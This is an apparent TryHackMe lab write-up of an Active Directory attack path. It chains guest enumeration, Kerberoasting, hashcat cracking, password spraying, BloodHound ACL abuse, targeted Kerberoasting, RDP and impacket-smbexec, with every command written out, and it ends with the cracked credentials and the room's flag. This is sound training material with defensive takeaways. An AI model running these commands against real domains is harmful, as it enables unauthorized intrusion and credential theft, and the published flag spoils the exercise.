# NULLSECURE - FROM NULL TO ROOT

**Video Walkthrough:** [VIDEO_LINK_HERE](https://youtu.be/0-NmWWegWwI)

---

# Operation Endgame — TryHackMe Writeup

**Difficulty:** Hard
**Category:** Active Directory / Red Team
**Room link:** https://tryhackme.com/room/operationendgame
**Target:** `ad.thm.local` (10.146.163.155) — Domain: `thm.local`

## Overview

Operation Endgame is a Hard-difficulty Active Directory challenge. The scenario casts the target as the internal network of "Sneaky Viper," with a single flag to retrieve after full domain compromise. The box requires chaining anonymous SMB/LDAP access, Kerberoasting, ACL abuse via BloodHound, targeted Kerberoasting, and a credential leak in an administrative script to reach the Domain Controller as a privileged user.

**Tools used:** RustScan, Nmap, NetExec (`nxc`), Hashcat, BloodHound (`bloodhound-python`), Impacket (`targetedKerberoast`, `smbexec`), `xfreerdp`, `awk`

## Recon

RustScan + Nmap service scan against the target identified a full Windows Active Directory Domain Controller port profile (Kerberos, LDAP/LDAPS, SMB, RPC, RDP, Global Catalog):

```
Open 10.146.163.155:53    domain
Open 10.146.163.155:88    kerberos-sec
Open 10.146.163.155:135   msrpc
Open 10.146.163.155:139   netbios-ssn
Open 10.146.163.155:389   ldap
Open 10.146.163.155:443   ssl/https
Open 10.146.163.155:445   microsoft-ds
Open 10.146.163.155:464   kpasswd5
Open 10.146.163.155:593   ncacn_http
Open 10.146.163.155:636   ldaps (tcpwrapped)
Open 10.146.163.155:3268  ldap (Global Catalog)
Open 10.146.163.155:3269  ldaps (Global Catalog)
Open 10.146.163.155:3389  ms-wbt-server (RDP)
Open 10.146.163.155:9389  mc-nmf (.NET Message Framing / AD Web Services)
```

LDAP and RDP NTLM banners confirmed the domain and DC identity:

```
Domain: thm.local, Site: Default-First-Site-Name
NetBIOS_Domain_Name: THM
NetBIOS_Computer_Name: AD
DNS_Computer_Name: ad.thm.local
```

## Vulnerability Identification

- **Null/guest SMB and LDAP sessions enabled** — allowed unauthenticated RID brute-forcing to enumerate the full domain user list.
- **Kerberoasting reachable via an unauthenticated (guest) LDAP bind** — no valid domain credentials were required to request a kerberoastable TGS.
- **Weak / shared password policy** — the password recovered from the first cracked Kerberoast hash (`CODY_ROY`) worked unchanged for a second domain account (`ZACHARY_HUNT`).
- **Excessive ACL rights** — `ZACHARY_HUNT` held Outbound Object Control over `JERRI_LANCASTER`, enabling a targeted Kerberoasting attack regardless of that account's normal SPN exposure.
- **Interactive logon rights** — `JERRI_LANCASTER` was a member of **Remote Desktop Users**, allowing a direct RDP foothold once cracked.
- **Plaintext credentials hardcoded in an administrative script** — `syncer.ps1` on the DC exposed a second, higher-privileged account (`SANFORD_DAUGHERTY`) in cleartext.

## Exploitation

**1. Guest/null session enumeration over SMB and RID brute-force:**

```bash
nxc smb ad.thm.local -u 'guest' -p ''
nxc smb ad.thm.local -u 'guest' -p '' --rid-brute > users.txt
```


**2. Validate recovered usernames have no working password via SMB:**

```bash
nxc smb ad.thm.local -u users.txt -p users.txt --no-bruteforce --continue-on-success
# nothing of interest
```


**3. Guest LDAP bind + Kerberoasting:**

```bash
nxc ldap ad.thm.local -u 'guest' -p ''
```


```bash
nxc ldap ad.thm.local -u 'guest' -p '' --kerberoasting kerb.txt
```


**4. Crack the recovered TGS hash with Hashcat:**

```bash
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
```


Recovered credentials: **`CODY_ROY : MKO)mko0`**

## Post-Exploitation

**5. Validate the cracked credentials over LDAP, then dump the full user list:**

```bash
nxc ldap ad.thm.local -u 'CODY_ROY' -p 'MKO)mko0'
```


```bash
nxc ldap ad.thm.local -u 'CODY_ROY' -p 'MKO)mko0' --users > p.txt
awk '{print $5}' p.txt > usersldap.txt
```



**6. Password-spray the recovered password against every domain user:**

```bash
nxc ldap ad.thm.local -u usersldap.txt -p 'MKO)mko0' --continue-on-success
```



```bash
nxc ldap ad.thm.local -u ZACHARY_HUNT -p 'MKO)mko0'
```


Recovered credentials: **`ZACHARY_HUNT : MKO)mko0`** (password reuse from `CODY_ROY`)

**7. BloodHound ingestion and ACL analysis:**

```bash
bloodhound-python -dc 'ad.thm.local' -d 'thm.local' -u 'ZACHARY_HUNT' -p 'MKO)mko0' -ns <ip> --zip -c All
bloodhound-start
```


Checking `ZACHARY_HUNT`'s **Outbound Object Control** in BloodHound revealed control over a single user, `JERRI_LANCASTER`:





**8. Targeted Kerberoasting against JERRI_LANCASTER:**

```bash
targetedKerberoast -v -d 'thm.local' -u 'ZACHARY_HUNT' -p 'MKO)mko0' \
  --dc-host ad.thm.local --request-user JERRI_LANCASTER
```


```bash
echo '$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$...' > hash.txt
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```


Recovered credentials: **`JERRI_LANCASTER : lovinlife!`**

## Privilege Escalation

**9. Group membership check — JERRI_LANCASTER belongs to Remote Desktop Users:**



**10. RDP foothold:**

```bash
xfreerdp /compression /cert:ignore +auto-reconnect /v:ad.thm.local \
  /u:JERRI_LANCASTER /p:'lovinlife!' +clipboard
```


**11. Local enumeration from an interactive `cmd` session:**

```cmd
cd C:\
dir
cd scripts
type syncer.ps1
```



`syncer.ps1` contained hardcoded credentials: **`SANFORD_DAUGHERTY : RESET_ASAP123`**

**12. Command execution as SANFORD_DAUGHERTY via Impacket:**

```bash
impacket-smbexec 'thm.local/SANFORD_DAUGHERTY:RESET_ASAP123@ad.thm.local'
```


**13. Flag retrieval:**

```cmd
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\flag.txt.txt
```



**Flag:** `THM{INFILTRATION_COMPLETE_OUR_COMMAND_OVER_NETWORK_ASSERTS}`

## Conclusion

Operation Endgame is a compact but realistic AD attack-path chain built almost entirely on identity and credential hygiene failures rather than unpatched software: anonymous enumeration, Kerberoasting, password reuse, over-permissioned ACLs, and a secret left in cleartext inside an automation script. None of the individual steps required a CVE — each one is a standard misconfiguration that BloodHound-driven AD assessments are specifically designed to surface. The key defensive takeaways are disabling anonymous/guest SMB and LDAP binds, enforcing unique strong passwords per service account (ideally gMSAs over kerberoastable SPNs), auditing object-level ACL grants for least privilege, and never storing credentials in plaintext inside scheduled scripts.

## Attack Chain Summary

1. Guest SMB/LDAP access → RID brute-force → full domain user list
2. Guest LDAP bind → Kerberoasting → cracked `CODY_ROY`
3. LDAP user dump (`CODY_ROY`) → password spray → `ZACHARY_HUNT` (password reuse)
4. BloodHound ingestion as `ZACHARY_HUNT` → Outbound Object Control over `JERRI_LANCASTER`
5. Targeted Kerberoasting → cracked `JERRI_LANCASTER`
6. `JERRI_LANCASTER` in Remote Desktop Users → RDP foothold
7. `syncer.ps1` on DC leaks `SANFORD_DAUGHERTY` credentials in plaintext
8. `impacket-smbexec` as `SANFORD_DAUGHERTY` → flag captured on Administrator's desktop

---

*This writeup documents work performed in an authorized TryHackMe lab environment for educational purposes only. Do not use these techniques against systems you do not own or have explicit permission to test.*

**A1GCH ⚔ NullSecure**
